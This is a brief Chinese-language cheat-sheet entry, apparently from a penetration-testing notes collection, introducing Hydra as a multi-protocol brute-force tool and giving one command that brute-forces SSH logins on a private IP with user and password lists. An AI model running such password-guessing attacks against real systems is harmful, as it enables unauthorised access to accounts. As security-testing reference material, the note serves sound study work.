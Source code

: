 ```yaml
---
description: 支持众多协议的爆破工具
---
```


# Hydra

## SSH爆破

```
hydra -L user -P pass ssh://10.30.0.164
```
